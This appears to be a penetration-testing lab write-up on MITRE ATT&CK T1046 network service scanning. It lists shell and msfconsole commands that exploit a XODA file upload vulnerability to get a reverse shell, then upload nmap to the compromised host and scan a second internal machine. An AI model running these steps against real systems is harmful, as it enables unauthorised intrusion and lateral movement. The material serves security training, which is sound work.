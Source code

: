 <br>

## 4. T1046 Network Service Scanning
 
In Metasploit, **Auxiliary Modules** are tools and functions that provide various scanning, reconnaissance, and other support functionalities. Common Auxiliary Functions:
- **Port Scanning**: These modules can scan for open ports on target machines using Nmap or internal scanning techniques.
- **Service Enumeration**: Identify services running on specific ports (e.g. FTP, SSH, HTTP).
- **Vulnerability Scanning**: While not directly an exploit, auxiliary modules can be used to check for the presence of certain vulnerabilities.
- **Brute Forcing**: Attempt to brute-force login credentials for services like SSH or FTP.

Network Service Scanning is a part of the exploitation as well as the post-exploitation phase and deals with identifying the services running on remote hosts.

**T1046 (Network Service Scanning)** is a technique defined in the **MITRE ATT&CK framework**, used to describe a type of reconnaissance activity where an attacker scans a network to discover open services or active ports on systems. The goal of this technique is to identify potential entry points into the network by gathering information about the services that are running and exposed to the internet or internal network. 

**Objective:** Identify the ports open on the second target machine using appropriate Metasploit modules. 

**Vulnerability Information:**
- Vulnerability: XODA File Upload Vulnerability
- Metasploit module: exploit/unix/webapp/xoda_file_upload

**Exploit the vulnerable service and gain access to the system.**

```shell
ping -c 1 <target_IP>
nmap -Pn -sV -O -v <target_IP>
# Check the HTTP content hosted on port 80 of the target machine.
curl <target_IP>
# Start msfconsole
service postgresql start && msfconsole
# Since the vulnerability is related to XODA file upload, we can search the module for XODA.
use exploit/unix/webapp/xoda_file_upload
set RHOSTS <target_IP>
set TARGETURI /
# The webaplication in this case is hosted at the root of the web server "/".
set LHOST <local_IP>
exploit

# Start a command shell and identify the IP address range of the second target machine.
shell
ifconfig # note the IP address
exit
```

1. **Ports scan on the second target machine using NMAP**

```shell
# Interacts with the active Metasploit session
sessions -i <session_ID>
# Uploads the local nmap binary from your machine to the /tmp directory on the target system
upload /root/static-binaries/nmap /tmp/nmap
shell
# Grants execute permission to the nmap file, allowing it to be run as a program
chmod +x ./nmap
# Run Nmap on the target to scan the ports
./nmap -p- <second_target_IP>
```
